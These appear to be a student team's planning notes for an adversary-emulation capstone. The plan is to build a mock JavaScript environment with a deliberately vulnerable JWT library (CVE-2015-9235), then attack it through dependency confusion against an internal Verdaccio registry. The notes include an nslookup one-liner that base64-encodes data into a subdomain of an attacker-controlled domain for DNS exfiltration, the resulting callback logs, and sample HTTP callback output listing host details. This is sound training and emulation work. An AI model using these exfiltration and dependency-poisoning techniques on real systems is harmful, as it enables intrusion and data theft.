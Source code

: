 # Notes and Initial Research

Notes template
```
Resources link:
Idea:
Notes:
```

Please try to stick to the above notes contribution template all though it's not necessary. Since we are in different timezones and remote, it's best to have organized notes.

I have protected the main branch, so any changes will have to go through a PR merge, and before every PR merge, we all (at least 2) will have to review it.

When committing please ensure to add an apt commit message.

## Scenario
This project is intended to apply the MITRE ATT&CK framework and tools to map a cyber incident and then use the Caldera tool to complete an emulation plan. Included into team's tasks is the deployment in the Cloud of a mock-up scenario that represents the system compromised in the cyberincident studied. 

As a result of the project, with the Adversary Emulation Plan is needed to elaborate Threat Report of the incident analized (including a STIX2.1 JSON representation).  


## Dev Env

Resource Link: https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610

Idea: Build an infrastructure for an organization that heavily relies on a JavaScript environment, which can be utilized for implementing Dependency Confusion.

Notes: 

Requirements: 
`2` WebServers each with:

```
RAM: 4GB or more
Storage: Min
```

### Dev-Server-1

```bash
Node: v18.11.0
npm: v8.19.2
pm2: 5.2.2

# The versions can change depending on the time of implementation
```

This would be our ginny pig application, which would have standard features of a generic web-application. Ex: Authentication and messaging (static)

The authentication will be handled using a vulnerable JWT tokens. We plan on using `jsonwebtoken v0.4.0` which will be vulnerable to token signing vulnerability ([CVE-2015-9235](https://nvd.nist.gov/vuln/detail/CVE-2015-9235)). 

```diff 
- Critical issue 1 (Account Takeover)
+ CVSS: 3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

> **Note**  
> STEP1: This will allows us to do perform an account takeover of the admin account, from here we will leak about the source code and name of a private package called: \<private-package-name>



### Dev-Server-2

```bash
Node: v18.11.0
npm: v8.19.2
pm2: v5.2.2
verdaccio: v5.20.1
# The versions can change depending on the time of implementation
```

This will be the internal package managing service like NPM. We will be using [Verdaccio](https://www.npmjs.com/package/verdaccio) for this server.

This is where the internal package will be hosted.

> When the attack will unfold, it will also poison this repository with our malicious package.

```diff 
- High/Critical issue 2
+ CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
# depends based on the amount of compromise a company incurs 
```

> **Note**  
> STEP2: This will allows us to get back a call back over the DNS and/or HTTP requests.


## Attacker Env

This is a separate env from that of Dev, and will require us to `2` server (or `1`) and a domain name get to call backs on.

Requirements: 
`2` WebServers each with:

```
RAM: 4GB or more
Storage: Min
```

Domain name : 
Can be bought from Namecheap for free using the .edu account.

### Attacker-Server-1 

DNS server which will receive call backs based on the domain look ups
(We can use something like: [Bind9](https://www.isc.org/bind/))

Ex of a DNS callback to my own hacker-server
```bash
nslookup $(echo -n "Capstone-test" | openssl base64).X-hacker-X-hackerone.me
Server:         XXXX:XXX:feed::1
Address:        XXXX:XXX:feed::1#53

Non-authoritative answer:
Name:   Q2Fwc3RvbmUtdGVzdA==.X-hacker-X-hackerone.me
Address: <redacted>

### As received on my hacker-server

03-Feb-2023 10:49:16.277 queries: info: client @0x7f61f402a880 <IP-Address>#17232 (Q2Fwc3RvbmUtdGVzdA==.X-hacker-X-hackerone.me): query: Q2Fwc3RvbmUtdGVzdA==.X-hacker-X-hackerone.me IN A -E(0)D (IP-Address)
```

> We are encoding the output with base-64 because of character restrictions for domain-name.

### Attacker-server-2 (Optional)

Instead of having a dedicated server, we can also have a web-hook to receive HTTP call backs:

```h
The path: <path>, Version: Linux kali 5.10.0-kali3-amd64 #1 SMP Debian 5.10.13-1kali1 (2021-02-08) x86_64 GNU/Linux ID: uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(bluetooth),133(scanner),141(kaboxer), IP: <redacted>, Internal IP: 10.0.0.20 172.17.0.1 2601:197:801:2040::7aa 2601:197:801:2040:4d98:e828:740e:c72c 2601:197:801:2040:20c:29ff:febb:36a5 , Tag: altl
```

or we can use [ngrok](https://ngrok.com/) to receive call-backs on our system which can be on our own computers.




